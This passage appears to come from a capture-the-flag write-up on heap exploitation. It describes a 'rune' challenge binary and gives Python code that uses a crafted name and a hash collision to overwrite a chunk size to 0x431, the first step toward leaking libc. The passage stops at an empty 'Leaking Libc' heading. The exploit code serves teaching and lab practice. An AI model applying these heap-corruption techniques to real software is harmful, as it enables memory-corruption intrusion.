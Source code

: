 This is the backbone for the rest of my exploit, it enables everything else 

### Code Block 
![vulnerable code snippet](vulnerable_code_snippet.png)

## Example code

The snippet of code below allocates 2 chunks, one small chunk at the start, and a larger chunk beneath it.

next, you edit the small chunk, but give it the new name of `\x3f\x00` since I am sending a line, a `\n` or `\x0a` is appended to the end of the new name

the result is the first lookup thinks that the item at index 9 (`(0x3f + 0xa) % 0x3f = 0x9`) is not in use, so it is safe to alloc there. But, because of the strcpy when calculating the hash for reading to the allocation it gets the index of `0x3f` which contains the size of `0x60`.   

```python
#allocate a small block at the start of the heap
create_rune(r, 'a', 8, "B"*7) #target

#make a larger block, the size is important for overwriting the it's values
create_rune(r, 'u', 96, "C"*95) #victim chunk

#make the larger chunk even bigger! with a size of 0x431 it is considered an unsorted chunk
edit_rune(r, 'a', '\x3f\x00', "A"*0x10+p64(0x431))
```

# Leaking Libc


### code
